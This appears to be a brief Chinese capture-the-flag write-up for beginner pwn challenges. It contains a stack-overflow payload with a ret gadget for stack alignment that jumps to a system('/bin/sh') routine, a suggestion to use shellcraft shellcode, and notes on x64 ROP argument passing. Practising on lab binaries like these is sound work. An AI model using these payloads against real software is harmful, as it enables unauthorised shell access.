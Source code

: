 ### level0



> 000400596 callsystem      proc near
> .text:0000000000400596 ; __unwind {
> .text:0000000000400596                 push    rbp
> .text:0000000000400597                 mov     rbp, rsp
> .text:000000000040059A                 mov     edi, offset command ; "/bin/sh"
> .text:000000000040059F                 call    _system
> .text:00000000004005A4                 pop     rbp
> .text:00000000004005A5                 retn
> .text:00000000004005A5 ; } // starts at 400596

__一个简单的栈溢出，但是遇到一些小问题
直接使用payload=b'a'\*128+b'a'\* 8+p64(callsys_addr)会打不通
这个需要涉及到ubuntu调用system需要对齐栈的问题，需附加一个ret来保持堆栈平衡，比如我随便找了一个ret地址0x4005C5，payload变成b'A' * (0x80 + 0x8) + p64(0x4005C5) + p64(callsys_addr)。这样就能打得通了
另外，直接将callsys_adrr改为59A也能正常运行__

以下内若为瞎猜的：
如果返回地址是call XXX（或push bp，mov bp,sp）需要平衡
如果是普通语句可以不平衡

### level1

checksec 时发现__RWX:      Has RWX segments__
这时考虑shellcode = asm(shellcraft.sh())

### level2_x64
64位的传递参数通过rdi
利用pop rdi;ret来实现传参
前6个参数依次存放于 rdi、rsi、rdx、rcx、r8、r9 寄存器中
第7个以后的参数存放于栈中
